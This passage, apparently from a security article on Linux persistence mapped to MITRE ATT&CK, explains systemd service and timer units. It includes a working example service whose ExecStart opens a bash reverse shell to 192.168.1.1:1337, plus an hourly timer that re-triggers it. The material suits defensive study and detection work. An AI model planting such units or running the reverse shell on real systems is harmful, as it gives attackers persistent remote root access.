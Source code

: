 * `/run/systemd/system/`
* `/etc/systemd/system/`
* `/etc/systemd/user/`
* `/usr/local/lib/systemd/system/`
* `/lib/systemd/system/`
* `/usr/lib/systemd/system/`
* `/usr/lib/systemd/user/`

User-specific unit files are typically located at:

* `~/.config/systemd/user/`
* `~/.local/share/systemd/user/`

A basic service unit file consists of three main sections: `[Unit]`, `[Service]`, and `[Install]`, and has the `.service` extension. Here's an example of a simple unit file that could be leveraged for persistence:

```
[Unit]
Description=Reverse Shell

[Service]
ExecStart=/bin/bash -c 'sh -i >& /dev/tcp/192.168.1.1/1337 0>&1'

[Install]
WantedBy=multi-user.target
```

This unit file would attempt to establish a reverse shell connection every time the system boots, running with root privileges. More information and real-world examples related to systemd services are outlined by MITRE in [T1543.002](https://attack.mitre.org/techniques/T1543/002/).

Relying solely on persistence upon reboot might be too restrictive. Timer unit files can be leveraged to overcome this limitation to ensure persistence on a predefined schedule.

### T1053.006 - scheduled task/job: systemd timers

[Timer units](https://wiki.archlinux.org/title/systemd/Timers) provide a versatile method to schedule tasks, similar to cron jobs but more integrated with the Systemd ecosystem. A timer unit specifies the schedule and is associated with a corresponding service unit that performs the task. Timer units can run tasks at specific intervals, on specific dates, or even based on system events.

Timer unit files are typically located in the same directories as the service unit files and have a `.timer` extension. Coupling timers to services is done by leveraging the same unit file name but changing the extension. An example of a timer unit file that would activate our previously created service every hour can look like this:

```
[Unit]
Description=Obviously not malicious at all

[Timer]
OnBootSec=1min
OnUnitActiveSec=1h

[Install]
WantedBy=timers.target
```
